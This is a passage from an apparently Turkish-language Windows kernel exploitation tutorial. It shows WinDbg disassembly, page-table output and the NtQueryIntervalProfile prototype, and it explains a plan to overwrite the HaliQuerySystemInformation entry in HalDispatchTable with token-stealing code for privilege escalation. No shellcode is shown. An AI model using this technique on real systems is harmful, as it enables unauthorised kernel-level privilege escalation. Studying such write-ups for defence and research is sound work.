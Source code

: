 ```
fffff800`02c438eb 56              push    rsi
fffff800`02c438ec 57              push    rdi
fffff800`02c438ed 4154            push    r12
fffff800`02c438ef 4881ec40010000  sub     rsp,140h
fffff800`02c438f6 488b0503b8feff  mov     rax,qword ptr [hal!_security_cookie (fffff800`02c2f100)]
fffff800`02c438fd 4833c4          xor     rax,rsp
kd> !pte nt!HalDispatchTable
                                           VA fffff80002810cb0
PXE at FFFFF6FB7DBEDF80    PPE at FFFFF6FB7DBF0000    PDE at FFFFF6FB7E0000A0    PTE at FFFFF6FC00014080
contains 0000000000199063  contains 0000000000198063  contains 00000000028009E3  contains 0000000000000000
pfn 199       ---DA--KWEV  pfn 198       ---DA--KWEV  pfn 2800      -GLDA--KWEV  LARGE PAGE pfn 2810        
```

Görüldüğü üzre `HaliQuerySystemInformation` fonksiyonu var. Biz bu fonksiyonun yerine kendi "*token*" çalan kod parçacığımızı koyacağız. Bu kod parçacığının çağırılmasını da resmi olarak belgelere geçmemiş olan `NtQueryIntervalProfile` fonksiyonu yapacak. Fonksiyonun öntanımı şu şekilde :

```c
NTSTATUS 
NtQueryIntervalProfile (
    KPROFILE_SOURCE ProfileSource, 
    ULONG *Interval
    );
```

Bu fonksiyonu incelediğimizde ise şöyle makine kodlarıyla karşılaşıyoruz:

```
kd> u nt!NtQueryIntervalProfile+0x22
nt!NtQueryIntervalProfile+0x22:
fffff800`02a1c7a2 488b055728ebff  mov     rax,qword ptr [nt!MmUserProbeAddress (fffff800`028cf000)]
fffff800`02a1c7a9 483bd0          cmp     rdx,rax
fffff800`02a1c7ac 480f43d0        cmovae  rdx,rax
fffff800`02a1c7b0 8b02            mov     eax,dword ptr [rdx]
fffff800`02a1c7b2 8902            mov     dword ptr [rdx],eax
fffff800`02a1c7b4 eb02            jmp     nt!NtQueryIntervalProfile+0x38 (fffff800`02a1c7b8)
fffff800`02a1c7b6 eb14            jmp     nt!NtQueryIntervalProfile+0x4c (fffff800`02a1c7cc)
fffff800`02a1c7b8 e8830affff      call    nt!KeQueryIntervalProfile (fffff800`02a0d240) <----------- Dikkat
kd> u nt!KeQueryIntervalProfile+0x1b
nt!KeQueryIntervalProfile+0x1b:
fffff800`02a0d25b eb2f            jmp     nt!KeQueryIntervalProfile+0x4c (fffff800`02a0d28c)
fffff800`02a0d25d ba0c000000      mov     edx,0Ch
fffff800`02a0d262 894c2420        mov     dword ptr [rsp+20h],ecx
fffff800`02a0d266 4c8d4c2440      lea     r9,[rsp+40h]
fffff800`02a0d26b 8d4af5          lea     ecx,[rdx-0Bh]
fffff800`02a0d26e 4c8d442420      lea     r8,[rsp+20h]
fffff800`02a0d273 ff153f3ae0ff    call    qword ptr [nt!HalDispatchTable+0x8 (fffff800`02810cb8)]  <----------- Dikkat
fffff800`02a0d279 85c0            test    eax,eax

```


[^1]: Sistemdeki önemli veri yapılarını korumakla görevli bir mekanizma.